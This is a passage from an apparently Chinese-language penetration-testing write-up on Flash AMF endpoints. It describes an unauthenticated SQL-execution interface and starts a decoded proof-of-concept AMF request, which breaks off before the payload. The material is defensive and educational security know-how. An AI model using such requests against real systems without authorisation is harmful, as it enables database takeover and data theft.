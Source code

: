 

&gt; [!note]
&gt;
&gt; 普遍这些工具都比较老，现在是2025年了，Flash、AMF大概在2018年比较流行，这些插件可能也有一些适配性上的问题。
&gt;
&gt; 至于要不要对这些插件进行优化，再说吧……(🕊咕咕咕~)



### 实战案例

首先要理解AMF是一种序列化后的数据传输格式，所以存在什么漏洞取决于传递了什么数据，它和平时常用的`key=value`模式本质上是一样的，因此很多漏洞也是相近的。

部分案例见这篇参考文章：[谈谈AMF网站的渗透测试](https://xz.aliyun.com/news/7994)：用户名枚举、敏感信息泄露、SQL注入、未授权访问、文件删除。

接下去我挑一下我遇到的漏洞：

&gt; [!warning]
&gt;
&gt; *坏了，我的测试记录上都是水印，等我脱敏下*
&gt;
&gt; 其实写到这的时候感觉没啥好写的，AMF的难点就在对传输数据进行解码，后面的漏洞都比较普通，和正常Web一样。

#### 未授权SQL执行

这个漏洞很好理解，网站定义了一个接口能执行SQL语句，AMF数据解码后就可以任意修改了，没有任何限制，相当于接管了SQL执行功能。而且这个功能可以未授权访问，删除Cookie、Token等认证字段后也能获取到数据。

![image-20250825234246822](resource/index.assets/image-20250825234246822.png)

POC 反序列化解码后如下：

```xml
POST /AtomLocal/messagebroker/amf HTTP/1.1
Host: xxxxxxx
Connection: close
Content-Length: 842

&lt;ActionMessage&gt;
  &lt;version&gt;3&lt;/version&gt;
  &lt;headers/&gt;
  &lt;bodies&gt;
    &lt;MessageBody&gt;
      &lt;targetURI&gt;null&lt;/targetURI&gt;
      &lt;responseURI&gt;null&lt;/responseURI&gt;
      &lt;data class=&#34;object-array&#34;&gt;
        &lt;RemotingMessage&gt;
          &lt;destination&gt;manager&lt;/destination&gt;
          &lt;messageId&gt;BA53BCCF-2AD0-1027-D6C2-9C5702AB6F35&lt;/messageId&gt;
          &lt;timestamp&gt;0&lt;/timestamp&gt;
          &lt;timeToLive&gt;0&lt;/timeToLive&gt;
          &lt;operation&gt;searchByParam&lt;/operation&gt;
```